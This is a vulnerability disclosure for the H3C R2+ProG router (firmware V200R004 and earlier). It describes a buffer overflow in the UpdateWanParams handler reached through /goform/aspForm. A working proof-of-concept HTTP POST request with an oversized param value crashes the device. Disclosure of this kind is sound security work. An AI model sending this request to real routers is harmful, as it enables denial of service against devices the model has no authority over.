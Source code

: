 # Information



**Vendor of the products:** New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** H3C R2+ProG

**Affected firmware version:** <=V200R004

**Firmware download address:** [download](https://www.h3c.com/cn/Home/Agreement//default.htm?t=H3C%20R2+ProGV200R004%EF%BC%88%E4%BB%85%E9%80%82%E7%94%A8%E4%BA%8E%E5%8E%9F%E5%85%88%E7%89%88%E6%9C%AC%E4%B8%BAV200%E7%B3%BB%E5%88%97%E7%9A%84%E8%AE%BE%E5%A4%87%EF%BC%89%E7%89%88%E6%9C%AC%E5%8F%8A%E8%BD%AF%E4%BB%B6%E8%AF%B4%E6%98%8E%E4%B9%A6&s=7597052)

# Overview

A serious buffer overflow vulnerability was found on the H3C R2+ProG router. This vulnerability can be initiated through the /goform/aspForm route. By sending an HTTP POST request to construct the param field, the program can crash. Specifically, the UpdateWanParams related processing function in its file

# Vulnerability details

Although the length of the parameter is limited to no more than 0x200 bytes, since the length of the v27 array is only 64 bytes, a buffer overflow will occur when formatting below

![image-20250422171504413](1/image-20250422171504413.png)

# POC

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateWanParams&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![image-20250411182020182](1/image-20250411182020182.png)